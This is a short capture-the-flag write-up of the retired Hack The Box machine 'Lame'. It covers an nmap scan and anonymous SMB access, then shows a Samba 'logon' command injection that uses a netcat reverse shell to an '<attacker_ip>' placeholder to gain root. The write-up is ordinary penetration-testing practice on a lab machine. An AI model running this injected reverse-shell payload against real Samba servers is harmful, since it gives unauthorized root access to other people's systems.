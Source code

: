 ```yaml
---
layout: post
title: HacktheBox - Lame
toc: true
subtitle: Retired Machine
comments: false
---
```


## Lame ![propic](/pictures/lame/lame.png)

Start off with a network scan:
```
nmap -sV -sC -oA nmap/lame 10.10.10.3
```
![nmap](/pictures/lame/nmap.png)

There is an open ports 21, 22, 139, 445.
Initally, I am interested in the anonymous logon in ftp, but there are no notable files there.

So, I divert my attention to the available smbshare and attempt to login to the tmp directory via the command:
```
smbclient -N //10.10.10.3/tmp
```
I am able to successfully logon anonymously to the smb share and list the relevant commands.

![smb](/pictures/lame/smb.png)

I notice that the 'logon' command is available in smb. So, I can create a listener and reverse shell with the following commands:

```
nc -lvnp 6200
logon "./=`nohup nc -e /bin/sh <attacker_ip> 6200`"
```
I receive a shell and we are now root. From there, I am easily able to capture both the user.txt and root.txt under /home/makis/ and /root/.

![root](/pictures/lame/root.png)
